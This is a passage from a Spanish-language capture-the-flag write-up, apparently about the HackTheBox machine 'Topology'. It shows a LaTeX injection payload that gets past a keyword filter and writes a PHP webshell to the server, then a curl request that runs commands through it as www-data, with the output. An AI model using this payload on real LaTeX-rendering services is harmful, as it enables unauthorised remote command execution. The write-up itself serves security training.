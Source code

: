 [ippSec](https://ippsec.rocks/?), nos muestra también una manera de poder llegar a acceder al equipo mediante `LaTeX Injection` logrando realizar un `Bypass` de las restricciones que se nos indicaba anteriormente.

En el siguiente ejemplo, creamos un archivo llamado `gzzcoo.php` que contenía una **webshell**.

```latex
\newwrite\outfile\openout\outfile=gzzcoo.php\^^77rite\outfile{<?php system($_REQUEST['cmd']); ?>}\closeout\outfile
```

<figure><img src="../../.gitbook/assets/imagen (21) (1).png" alt=""><figcaption></figcaption></figure>

Este archivo al parecer, es subido en [http://latex.topology.htb/tempfiles/](http://latex.topology.htb/tempfiles/), en el cual comprobamos el archivo creado.

<figure><img src="../../.gitbook/assets/imagen (19) (1).png" alt=""><figcaption></figcaption></figure>

Probamos de utilizar la **webshell** subida, y se nos muestra la posibilidad de ejecutar comandos arbitrarios en el sistema objetivo.

En este caso, el usuario que ejecuta los comandos era `www-data`, con lo cual si utilizamos este método, deberíamos posteriormente ganar acceso como el usuario `vdaisley`.

```bash
❯ curl -s 'http://latex.topology.htb/tempfiles/gzzcoo.php?cmd=id;hostname;ifconfig'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
topology
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.217  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 dead:beef::250:56ff:fe94:9002  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:9002  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:90:02  txqueuelen 1000  (Ethernet)
        RX packets 105628  bytes 8125611 (8.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 95326  bytes 29401300 (29.4 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
```